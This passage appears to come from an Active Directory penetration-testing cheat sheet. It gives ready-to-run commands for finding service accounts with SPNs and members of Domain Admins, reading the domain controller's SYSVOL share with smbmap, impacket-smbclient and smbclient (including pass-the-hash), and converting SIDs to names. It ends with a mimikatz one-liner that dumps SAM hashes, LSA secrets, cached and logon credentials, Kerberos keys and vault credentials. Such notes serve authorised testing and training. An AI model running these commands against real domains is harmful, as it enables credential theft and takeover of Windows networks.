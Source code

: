```shell
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'} # SAs in "Domain Admins"


# b) setspn.exe
setspn -L
setspn -L iis_service
```
## Check SYSVOL folder
***Can access GPPs and other interesting files***

```shell
# Path is usually mapped to below in DC
%SystemRoot%\SYSVOL\sysvol\domain-name 
C:\Windows\SYSVOL\sysvol\domain-name

# impacket-smbclient
impacket-smbclient domain/user%password@`dc` [ -k -no-pass ]

# smbmap
smbmap -H `dc` -d `dom` -u "user" -p "password" -r SYSVOL

# smbclient
smbclient \\\\`tip`\\SYSVOL  -U USER --pw-nt-hash HASH
```
## Connect to SYSVOL
```shell
# PS
net use s: \\<DC>\SYSVOL
cd s:
dir

# GUI
File Explorer → \\<DC>\\SYSVOL
```
## Check SPN access
```
iwr -UseDefaultCredentials http://web04
```
## Convert SID to Name
```shell
# mulitple
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

# single
Convert-SidToName "S-1-5-21-1987370270-658905905-1781884369-553"

Convert-NameToSID "stephanie"
```
## mimikatz oneliner
```shell
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam /patch" "lsadump::sam" "sekurlsa::msv" "lsadump::secrets" "lsadump::lsa" "lsadump::lsa /patch" "lsadump::cache" "sekurlsa::logonpasswords full" "sekurlsa::ekeys" "sekurlsa::dpapi" "sekurlsa::credman" "vault::list" "vault::cred /patch" "exit"
```
## Atlernate Cred / Secure Cred
```shell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```